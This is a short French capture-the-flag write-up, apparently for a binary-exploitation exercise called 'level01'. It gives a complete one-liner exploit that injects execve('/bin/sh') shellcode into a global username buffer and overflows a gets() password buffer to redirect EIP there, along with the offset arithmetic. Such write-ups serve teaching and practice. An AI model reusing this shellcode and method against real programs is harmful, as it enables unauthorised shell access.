 (perl -e 'print "dat_wil" . "\x90"x8 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" . "\n"' ; perl -e 'print "\x90"x80 . "\x48\xa0\x04\x08" . "\n"' ; cat) | ./level01

Cet exercice porte a confusion avec son entree de mot de passe et d'utilisateur, mais ce sont juste des facon d'injecter du shellcode.
On trouve eip en regardant gets et le retour de ltrace ainsi que la variable globale a_user_name

0x0804a040  a_user_name
La taille du deuxieme buffer nous laisse override eip en faisant :
0x60 - 0x8 = 0x54
Il faut donc un padding de 0x50 puis notre adresse pointant vers 0x0804a040 + 8 pour eviter l'entree du nom d'utilisateur.